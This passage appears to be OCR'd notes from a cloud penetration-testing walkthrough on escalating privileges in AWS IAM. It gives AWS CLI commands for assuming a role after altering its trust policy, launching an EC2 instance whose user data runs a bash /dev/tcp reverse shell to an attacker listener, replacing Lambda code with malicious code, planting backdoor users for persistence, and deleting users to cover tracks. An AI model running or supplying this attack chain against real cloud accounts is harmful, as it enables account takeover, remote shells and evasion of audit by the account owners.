     * **B) Update Role Trust Policy for Privilege Escalation:**
        (If `iam:PassRole` and `sts:AssumeRole` are allowed)
        * Find an existing role (e.g., `aws iam list-roles`).
        * Modify its trust policy (`new-trust-policy.json`) to allow the attacker to assume it.
        * Assume the role:
            ```bash
            aws sts assume-role \
            --role-arn arn:aws:iam::<account-id>:role/<role-name> \
            --role-session-name attacker-session
            ```

    * **C) Launch EC2 with Malicious User Data:**
        (If `ec2:RunInstances`, `iam:PassRole`, `ec2:AssociateIamInstanceProfile` are allowed)
        * Launch a new EC2 instance with `user-data` containing a reverse shell script (`reverse-shell.sh`) that connects back to the attacker machine.
            ```bash
            aws ec2 run-instances \
            --image-id ami-0abcdef1234567890 \ # Replace with a valid AMI
            --count 1 \
            --instance-type t2.micro \
            --iam-instance-profile Name=adminProfile \ # Existing profile with high privs
            --user-data file://reverse-shell.sh
            ```
            * **Victim (New EC2):** `bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1`
            * **Attacker (Kali):** `nc -lvnp 4444`

    * **D) Modify Lambda Function:**
        (If `lambda:UpdateFunctionCode` is allowed)
        * Download existing code (`aws lambda get-function --function-name my-demo-function`).
        * Upload malicious code (e.g., reverse shell, keylogger) as a ZIP file:
            ```bash
            aws lambda update-function-code \
            --function-name my-demo-function \
            --zip-file fileb://malicious_code.zip
            ```

5.  **Establish Persistence:**
    Various methods were discussed and could be established:
    * Creating backdoor IAM users with admin rights.
    * Adding attacker IPs to security groups.
    * Setting up CloudWatch logs or Lambda triggers for callbacks.

6.  **Cover Tracks:**
    (If applicable, depending on permissions)
    * `aws iam delete-user --user-name attacker-persist`
    * `aws iam detach-user-policy --user-name currentuser --policy-arn arn:aws:iam::aws:policy/AdministratorAccess` (if you were re-attaching policies).

#### Summary of IAM Exploitation:

| Phase         | Action                                 | Command / Tool                     |
| :------------ | :------------------------------------- | :--------------------------------- |
| **Recon** | List IAM policies                      | `aws iam list-user-policies`       |
| **Escalation A** | Create user + attach admin policy      | `aws iam create-user`, `attach-user-policy` |
| **Escalation B** | Assume privileged role                 | `aws sts assume-role`              |
| **Escalation C** | Launch EC2 with backdoor               | `aws ec2 run-instances`            |
| **Escalation D** | Upload malicious Lambda                | `aws lambda update-function-code`  |

---